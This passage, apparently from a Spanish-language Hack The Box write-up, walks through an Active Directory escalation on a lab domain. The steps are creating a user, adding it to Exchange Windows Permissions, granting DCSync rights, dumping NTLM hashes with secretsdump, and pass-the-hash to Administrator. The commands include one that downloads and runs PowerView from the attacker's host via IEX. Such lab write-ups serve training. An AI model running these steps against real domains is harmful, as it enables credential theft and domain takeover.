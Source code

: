 Obteniendo los siguientes archivos que posteriormente exporto a bloodhound:

![recon18](https://user-images.githubusercontent.com/55555187/161037389-3cbab530-38c1-404e-ab64-450f3e79fad3.png)

Una vez en bloodhound, marco svc-alfresco como owned y procedo a mirar sus relaciones.

Observo que es miembro de 9 grupos indirectamente. Uno de ellos **Account operators**, grupo que permite a sus integrantes administrar usuarios y grupos del dominio.

<img src="https://user-images.githubusercontent.com/55555187/161037385-84364cea-e44f-4cad-91e9-d3afda00241c.png" title="" alt="recon10" width="543">

Observando además las relaciones de todos los usuarios y grupos del dominio, observo que un buen vector de escalada podría ser crear un usuario mediante los permisos que el grupo Account operators otorga a svc-alfresco, añadirle al grupo **Exchange Windows Permissions** y otorgarle permisos DSync para poder realizar un DCSync Attack.

<img src="https://user-images.githubusercontent.com/55555187/161037064-7923ce23-03ef-4def-a737-8ad86f86b45d.png" title="" alt="recon11" width="551">

Creo un usuario mediante el binario net.exe y lo añado al grupo Exchange Windows Permissions:

```
net user kripteria kripteria123 /add /domain
net group "Exchange Windows Permissions" /add kripteria
```

Posteriormente, siguiente los pasos estipulados en los consejos de bloodhound, ejecuto PowerView.ps1 (alojado en mi máquina) mediante Invoke-Expression y mediante Add-ObjectACL doy permisos al DCSync al usuario kripteria.

```
IEX(new-object net.webclient).downloadstring('http://10.10.14.21/PowerView.ps1')
$pass = convertto-securestring 'kripteria123' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\kripteria', $pass)
Add-ObjectACL -PrincipalIdentity kripteria -Credential $cred -Rights DCSync
```

Una vez que tengo permisos, ejecuto **secretsdump.py** de impacket para dumpear los hashes NTLM del NTDS.DIT.

```
secretsdump.py htb.local/kripteria:kripteria123@10.10.10.161
```

<img src="https://user-images.githubusercontent.com/55555187/161037067-867cd49c-4071-4a9f-b3b9-9820c08c9080.png" title="" alt="recon12" width="603">

Con el hash NTLM del usuario Administrator y haciendo pass the hash en evil-winrm consigo entrar en su cuenta.

![recon13](https://user-images.githubusercontent.com/55555187/161037068-03a67c4e-cb6e-47af-b147-201430a44283.png)

También puedo hacerlo a través de psexec.py.

![recon14](https://user-images.githubusercontent.com/55555187/161037074-68a15340-14dd-4977-8595-3801c21e61db.png)

## Persistencia
